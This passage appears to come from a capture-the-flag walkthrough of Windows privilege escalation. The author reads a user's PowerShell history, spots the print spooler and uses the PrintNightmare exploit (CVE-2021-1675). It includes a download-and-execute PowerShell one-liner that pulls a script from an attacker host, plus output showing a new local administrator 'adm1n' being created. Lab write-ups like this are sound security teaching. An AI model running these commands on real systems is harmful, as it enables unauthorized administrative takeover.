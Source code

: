Viewing the contents of the powershell history file, we are able to see that there is a command that adds a printer. From the command, we are able to see the version of the printer that is being added. 

```
*Evil-WinRM* PS C:\Windows\Temp> cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1
```

From winpeas, we are also able to see that there is a spoolsv service that is running in the background

```
Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name
TCP        0.0.0.0               49410         0.0.0.0               0               Listening         1180            spoolsv
```

Searching up exploits for spoolsv, we are able to find CVE-2021-1675 which is famously dubbed as PrintNightmare exploit. We can first download the ps1 exploit from [here](https://github.com/calebstewart/CVE-2021-1675)

Afterwards, we will transfer it to the vulnerable server and execute the ps1 script. This script will then create a new user adm1n that belongs to the Administrators group

```
*Evil-WinRM* PS C:\Windows\temp> powershell.exe -nop -c "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.6:3000/CVE-2021-1675.ps1');Invoke-Nightmare"
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

We will then proceed to verify that the new user has been created and that the new user belongs to the Administrators group.

```
*Evil-WinRM* PS C:\Windows\temp> net user adm1n
User name                    adm1n
Full Name                    adm1n
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/8/2022 2:05:47 AM
Password expires             Never
Password changeable          5/8/2022 2:05:47 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All
```